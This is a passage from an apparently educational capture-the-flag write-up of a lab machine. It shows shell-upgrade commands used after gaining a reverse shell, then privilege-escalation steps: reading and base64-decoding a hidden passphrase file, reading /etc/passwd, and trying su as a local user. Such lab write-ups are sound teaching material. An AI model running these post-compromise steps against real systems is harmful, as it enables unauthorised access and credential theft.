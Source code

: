 Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

### Privilege Escalation

Once with a stable shell, we can begin with the **privilege escalation** phase, firstly i checked the website structure, with a bit of research i found a hidden folder at `/var/www/Hidden_Content/passpharse.txt`, checking it's content seems like `base64` string.  

```bash
www-data@myheroacademia:/var/www/Hidden_Content$ cat /var/www/Hidden_Content/passphrase.txt 
QWxsbWlnaHRGb3JFdmVyISEhCg==
```

So, let's decode it.

```bash
www-data@myheroacademia:/var/www/Hidden_Content$ cat /var/www/Hidden_Content/passphrase.txt | base64 -d
All*********ver!!!
```

Bingo, we found what seems like a password, the first thing i thought was authenticate as a system user, but that didn't worked.

```bash
www-data@myheroacademia:/var/www/Hidden_Content$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
deku:x:1000:1000:deku:/home/deku:/bin/bash

www-data@myheroacademia:/var/www/Hidden_Content$ su deku
Password: 
su: Authentication failure
```

After a bit of thinking i remembered that there was two images at the `/images` folder of the website, so let's see if they have any data embed.
